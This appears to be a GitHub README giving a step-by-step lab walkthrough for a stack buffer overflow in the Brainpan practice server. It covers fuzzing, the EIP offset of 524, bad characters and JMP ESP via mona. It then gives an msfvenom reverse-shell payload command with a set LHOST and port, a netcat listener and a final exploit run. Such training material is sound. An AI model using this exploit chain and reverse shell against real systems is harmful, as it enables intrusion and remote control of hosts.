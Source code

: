 <h1>Brainpan BOF server </h1>
<n><h2>steps</h2></n> 
<n><h3>1. spiking</n>
<n>2.fuzzing</n>
3. finding the offset
4. overwriting the EIP
5. finding bad characters
6. finding the right modules
7. Generating Shellcode</h3>

    <h2>    1 .spiking </h2> 
*First make sure youe firewall real protection turn off
*Now run brainpan server as admin
*use your spiking.spk to find Vulnerability 
script is --> 
<b>s_readline();
"s_string("TRUN ");"
s_string_variable("0");
</b>

*Now use generic_send_tcp (target)IP (target)PORT spiking.spk 0 0
(if server scrash ? boom you  succeed :D )`


``     <h2>2 .fuzzing</h2>

*Now time to find Number of size buffer which crash server 
(user chmod +x * )
* ./brainpan.py 192.168.43.161 9999 ( here your brainpan server will crash and you will get avarage amount o buffer size
*Now create pattern , why ? to find exact number of Buffer size
*First create unic pattern using metasploit tool
* /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1500( here your last (brainpan.py) crash avarage number , which 
must greater.  
* Now usr offsetcalc.py to find lenght later we will find offset which is our exact buffer size in byte :D 
* ./offsetcalc.py IP PORT
*get EIP value ? now use it at offset
		
		<h2>3. finding the offset</h2>
*find offset
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2000 -q 35724134
[*] Exact match at offset 524
* boom ?? we get Exact Number of size which is 524

		<h2>4. overwriting the EIP</h2>
*Now Verify EIP Overwrite or Not By B, add B*4 and check debuger print 42424242 at EIP or not
./brainpanEIPWt.py IP PORT
* YES --> ok great

		<h2>5. finding bad characters</h2>
* Now find Bad chars which is use while create shellcode , actual we dont found bad chars in this servers, but dont skip this step go head
and just do practice ;) 
* ./brainpanBadChard.py IP PORT
* remember how to find Bad chars ? opps no ? dont worry just do hard else catch me on insta i'll explain you :)
bad chars 

	<h2>6. finding the right modules</h2>
* Downloaded Mona modules ? . no ? download it  --> https://github.com/corelan/mona and add it at exact place

* use command 
!mona mudules
!mona find -s "\xff\xe4" -m brainpan.dll
*now find base value note it down
and make sure ur JMP ESP use Using nasm_shell
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

now do make sure you selected your JMP ESP make sure your base value is right 
click arrow type jump number
*fire offsetverify.py
./offsetverify.py IP PORT
make sure its work you controling EIP or not if yes then go head and do shell using shellcode

*control EIP done

			<h2>7. Generating Shellcode</h2>
*now generarte shellcode 

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.43.216 LPORT=443 EXITFUNC=thread -f c -a x86 -b "\x00\x0a"(make sure your bad chars)


"A" * 524 + (JMP ESP value) "\xf3\x12\x17\x31"  (reverse way) +  "\x90" * 8 ( this is nops value minimum which make space between shell and JMP ESP+ shell 
*make sure your nc is ready
 nc -lvnp 443

*and now fire your final code 
./finalexploit.py IP PORT

*boom you will get shell 
*if not then sorry please recheck all step clearly 
*thanks i hope you love this repo :D 

<b>
<br>visit our official Website : https://hacksudo.com</br>
<br>hacksudo Linkedin https://www.linkedin.com/in/hack-sudo-230a871b3/</br>
<br> visit linkedin https://www.linkedin.com/in/realvilu </br>
<br><h2>Author Vishal waghmare</h2></br>
<h3>Happy Hacking :)</h3>
</b>
